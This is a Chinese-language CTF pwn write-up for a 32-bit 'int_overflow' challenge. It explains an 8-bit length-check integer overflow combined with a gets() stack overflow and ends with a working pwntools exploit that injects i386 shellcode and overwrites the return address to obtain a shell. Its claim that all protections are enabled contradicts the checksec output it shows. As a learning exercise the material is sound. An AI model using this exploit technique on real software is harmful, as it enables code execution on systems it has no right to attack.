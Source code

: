 ```yaml
---
Author : Mark0519
---
```


# int_overflow

## 题目分析

### 1.checksec分析

使用checksec命令分析，得知此题所有保护均为开启：

`````shell
 mark0519:~/Desktop$  checksec int_overflow
 Arch:     i386-32-little
 RELRO:    Partial RELRO
 Stack:    No canary found
 NX:       NX disabled
 PIE:      No PIE (0x8048000)
 RWX:      Has RWX segments
`````

且ELF文件为32位，使用IDApro32位打开

### 2.源码分析

使用IDApro32位打开后，找到main函数后用F5反汇编得到伪C代码

几个主要函数反汇编的结果如下：

````c
//main()函数
int __cdecl main(int argc, const char **argv, const char **envp)
{
  puts("##### Welcome to MOCSCTF #####");
  puts("Plz input your passwd:");
  validate_passwd();
  return 0;
}
````

````c
//validate_passwd()函数
int validate_passwd()
{
  char s; // [esp+Dh] [ebp-3Bh]
  unsigned __int8 v2; // [esp+3Fh] [ebp-9h]

  gets(&s);
  v2 = strlen(&s);
  return check(v2, &s);
}
````

````c
//check()函数
char *__cdecl check(int a1, char *src)
{
  if ( (unsigned __int8)a1 <= 3u || (unsigned __int8)a1 > 8u )
    return (char *)puts("bad!");
  puts("good!");
  return strcpy(passwd_buf, src);
}
````

阅读源码得知：

此文件主要功能为：

输入一段passwd，如果passwd的长度大于4或者小于等于8，则输出``good！``，并且把passwd复制给passwd_buf，否则输出``bad！``

**但代码中存在整数溢出的漏洞**

在validate_passwd()函数中，通过strlen函数获取输入的passwd的长度，并将长度赋值给v2。

但是v2的数据类型为``unsigned __int8 ``,即单字节无符号数，即只能表示0~255这256个数（二进制的0000 0000 到1111 1111），如果超出255，则发生整数溢出。

简单来说，如果将255+5 = 260赋值给v2（v2 = 260），则在c程序运行中将其当作 5 处理。

具体整数溢出见ctfwiki：https://ctf-wiki.org/pwn/linux/integeroverflow/intof/

**同时存在栈溢出漏洞**

在输入时，程序所用的是gets函数，它从不检查输入字符串的长度，而是以回车来判断输入是否结束，所以很容易可以导致栈溢出。

> 历史上，**莫里斯蠕虫**第一种蠕虫病毒就利用了 gets 这个危险函数实现了栈溢出。

这里我们输入s时，由IDApro的反汇编````char s; // [esp+Dh] [ebp-3Bh]````得知，s距离ebp只有0x3b个字节，我们只要覆盖0x3b+4个字节，即可覆盖返回地址（+4是应为载覆盖一个ebp），从而达到劫持控制流的目的。

具体栈溢出原理见ctfwiki：https://ctf-wiki.org/pwn/linux/stackoverflow/stackoverflow-basic/

### 3.攻击思路

我们可以通过输入passwd时，利用栈溢出劫持控制流。

而整数溢出允许我们输入更多的字符，且将字符复制到了passwd_buf处，在保护都未开的情况下，passwd_buf所在的.bss段拥有执行权限。（也可通过gdb调试得知）故我们可以劫持控制流到passwd_buf处，执行我们所写的程序，进而拿到shell。

````shell
#gdb调试内容
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/sjj/Desktop/int_overflow
 0x8049000  0x804a000 r-xp     1000 0      /home/sjj/Desktop/int_overflow
 0x804a000  0x804b000 rwxp     1000 1000   /home/sjj/Desktop/int_overflow
0xf7ddb000 0xf7fb0000 r-xp   1d5000 0      /lib/i386-linux-gnu/libc-2.27.so
0xf7fb0000 0xf7fb1000 ---p     1000 1d5000 /lib/i386-linux-gnu/libc-2.27.so
0xf7fb1000 0xf7fb3000 r-xp     2000 1d5000 /lib/i386-linux-gnu/libc-2.27.so
0xf7fb3000 0xf7fb4000 rwxp     1000 1d7000 /lib/i386-linux-gnu/libc-2.27.so
0xf7fb4000 0xf7fb7000 rwxp     3000 0      
0xf7fd0000 0xf7fd2000 rwxp     2000 0      
0xf7fd2000 0xf7fd5000 r--p     3000 0      [vvar]
0xf7fd5000 0xf7fd6000 r-xp     1000 0      [vdso]
0xf7fd6000 0xf7ffc000 r-xp    26000 0      /lib/i386-linux-gnu/ld-2.27.so
0xf7ffc000 0xf7ffd000 r-xp     1000 25000  /lib/i386-linux-gnu/ld-2.27.so
0xf7ffd000 0xf7ffe000 rwxp     1000 26000  /lib/i386-linux-gnu/ld-2.27.so
0xfffdd000 0xffffe000 rwxp    21000 0      [stack]
````

具体过程：

1.将一段i386的shellcode输入进passwd。

2.将shellcode不足0x3b+4位的部分用任意字符补齐。  

3.将passwd_buf的地址打包成32位（占4个字节）发送，覆盖返回地址。

4.为满足check函数的条件，制造整数溢出，再在后面补上255 + 6 - 4 -（0x3b+4）= 194 个字节 ，这样v2=6满足条件。

5.getshell

## exp

````python
from pwn import *

p = process('./int_overflow')
#p = remote('ip','port')
context.log_level = 'debug'

passwd_buf_addr = 0x0804A060 
shellcode = shellcraft.i386.sh()

p.recvuntil("wd:\n")     
payload = asm(shellcode).ljust(0x3b+4,'a')+p32(passwd_buf_addr)+'a'*194  #63+4+194=261
p.send(payload)
p.interactive()
````

